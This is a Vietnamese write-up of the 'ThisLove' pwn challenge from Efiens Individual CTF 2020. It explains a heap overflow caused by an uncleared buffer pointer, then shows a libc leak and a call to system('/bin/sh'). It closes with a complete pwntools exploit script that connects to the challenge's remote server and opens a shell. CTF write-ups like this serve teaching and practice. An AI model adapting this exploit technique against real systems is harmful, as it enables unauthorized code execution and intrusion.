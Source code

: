 # ThisLove (Efiens Individual CTF 2020)



> [ThisLove]()

[Phiên bản libc local (Ubuntu 20.04)]()

## Tìm lỗi

#### Đầu tiên là về struct của một Letter object, nó có dạng như thế này:

![pic3]()

### Tổng quát chức năng hàm `NewLetter`

#### Ngay sau khi malloc xong 1 struct Letter object thì chương trình sẽ ngay lập tức gán vào tại offset 0 của struct là địa chỉ của các hàm như Sender1, Sender2 hay Sender3. Sau đó sẽ đọc nội dung thư (data do người dùng nhập) vào một vùng mới được malloc và gán con trỏ của vùng dữ liệu đó vào tại offset 0x8 của struct Letter. Đây là pseudo-code:

```C
void __cdecl NewLetter()
{
  int v0; // eax
  int v1; // ebx
  int v2; // eax
  unsigned int Length; // [rsp+Ch] [rbp-14h]

  v0 = Counter++;
  if ( v0 > 2 )
  {
    printf("Sorry, you are blocked!");
    exit(0);
  }
  v1 = Counter - 1;
  LoveLetter[v1] = (Letter *)malloc(0x10uLL);
  v2 = rand() % 3 + 1;
  if ( v2 == 3 )
  {
    LoveLetter[Counter - 1]->Function = Sender3; // gán địa chỉ function vào offset 0 của struct
  }
  else if ( v2 <= 3 )
  {
    if ( v2 == 1 )
    {
      LoveLetter[Counter - 1]->Function = Sender1; // gán địa chỉ function vào offset 0 của struct
    }
    else if ( v2 == 2 )
    {
      LoveLetter[Counter - 1]->Function = Sender2; // gán địa chỉ function vào offset 0 của struct
    }
  }
  printf("Length of letter: ");
  Length = ReadINT();
  if ( Length <= 0x400 )
    p = (char *)malloc(Length);
  if ( p )
  {
    LoveLetter[Counter - 1]->Content = p; // gán con trỏ tới vùng dữ liệu của user input vào offset 8 của struct
    printf("Enter your letter: ");
    ReadSTR(p, Length);
  }
}
```
### Tổng quát chức năng hàm `SendLetter`

#### Còn một hàm quan trọng không kém nữa là hàm `SendLetter`, hàm này sẽ cho phép bạn thực thi hàm tại có địa chỉ offset 0 của struct với tham số là con trỏ tại offset 8 của struct.

```C
void __cdecl SendLetter()
{
  if ( Counter )
    ((void (__fastcall *)(char *))LoveLetter[Counter - 1]->Function)(LoveLetter[Counter - 1]->Content); \\ gọi hàm
  else
    puts("Write a letter first.");
}
```

#### Sau khi nghịch phá binary, đọc asm và xem pseudo-code được một lúc thì mình thấy có 1 đoạn code đáng nghi ngờ trong hàm `NewLetter`

```C
  printf("Length of letter: ");
  Length = ReadINT();
  if ( Length <= 0x400 )
    p = (char *)malloc(Length);
  if ( p )
  {
    LoveLetter[Counter - 1]->Content = p;
    printf("Enter your letter: ");
    ReadSTR(p, Length);
  }
```

#### Ở đây chương trình kiểm tra độ lớn của input (do user nhập vào), mình sẽ tạm gọi là `length`, `length` \< `0x400` thì con trỏ `p` sẽ được gán thành con trỏ của vùng dữ liệu vừa được malloc() với tham số là `length`. Sau đó chương trình sẽ kiểm tra con trỏ `p` có tồn tại hay không, nếu có thì sẽ cho phép người dùng viết dữ liệu vào vùng vừa được malloc.

#### `Hmmmmm, nghe có vẻ bảo mật cao...`

#### Nhưng khoan đã, trong quá trình thực thi, hàm `NewLetter` mỗi khi được gọi đều không clear hay reset lại giá trị của con trỏ `p`, vậy trong lần gọi tiếp theo của hàm `NewLetter` con trỏ `p` sẽ giữ nguyên giá trị của lần gọi hàm `NewLetter` trước đó.

#### `Hmmmmmmmm...`

#### Vậy thì ta chỉ cần gọi hàm `NewLetter` với `length` \< `0x400` duy nhất lần đầu tiên, để chương trình luôn tồn tại con trỏ `p`, sau đó những lần tiếp theo ta có thể truyền vào `length` với độ lớn tùy ý và dữ liệu ta viết vào thì vẫn sẽ bắt đầu tại vị trí của con trỏ `p` từ lần gọi trước của hàm => `Có lỗi overflow ở đây!`

#### Tuy nhiên khi gọi hàm `NewLetter` vào những lần sau, chương trình vẫn sẽ tạo một struct mới, nhưng khi viết dữ liệu thì lại bắt đầu từ con trỏ `p` trong lần gọi hàm đầu tiên (vì những lần sau khi ta nhập `length` > 0x400 thì chương trình sẽ không malloc ra vùng chứa dữ liệu mới => giá trị của con trỏ `p` không bị thay đổi), vậy có nghĩa là ta có thể sử dụng lỗi overflow để ghi đè hết lại giá trị của hàm và tham số gọi hàm trong những struct kế tiếp đó, sau đó thì ta sẽ sử dụng chức năng hàm `SendLetter` để `chạy hàm kèm theo tham số tùy ý`.

#### Vậy là ta đã có thể kiểm soát hoàn toàn luồng thực thi của chương trình với lỗi overflow ở hàm `NewLetter` và chức năng gọi hàm ở hàm `SendLetter`

![pic2]()

#### Ở đây chương trình chỉ cho tạo struct 3 lần, đến lần thứ tự sẽ hiện thông báo `Sorry, you are blocked!` và exit.

#### Vậy trong lần gọi hàm `NewLetter` đầu tiên ta sẽ đánh lừa chương trình khởi tạo con trỏ `p`

#### Lần gọi hàm `NewLetter` thứ hai ta sẽ sử dụng lỗi overflow và hàm `SendLetter` để [leak libc]()

#### Sau khi đã leak được libc thì lần gọi hàm thứ ba, cũng là lần gọi cuối cùng ta sẽ sử dụng lỗi overflow và hàm `SendLetter` để gọi hàm `system` với tham số là `/bin/sh`

#### Vậy là đã spawn shell thành công trên remote server!!! Đây là code exploit của mình: 

```python
from pwn import *

debug = False

def write(size, payload):
    print(io.recvuntil('choice: '))
    io.sendline('1')
    print(io.recv())
    io.sendline(str(size))
    print(io.recv())
    io.sendline(payload)

def execute():
    print(io.recvuntil('choice: '))
    io.sendline('2')

elf = ELF('./thislove')
if debug:
    io = process('./thislove')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    io = remote('128.199.234.122', 4900)
    libc = ELF('libc.so')

write(6, 'AAAA')
payload = b'A'*32+p64(elf.sym['puts'])+p64(elf.got['puts'])
write(100000, payload)
execute()
libc.address = u64(io.recv(6)+b'\0\0')-libc.sym['puts']
print('LIBC: ', hex(libc.address))
payload = b'A'*64+p64(libc.sym['system'])+p64(next(libc.search(b'/bin/sh')))
write(100000, payload)
execute()
io.interactive()
```
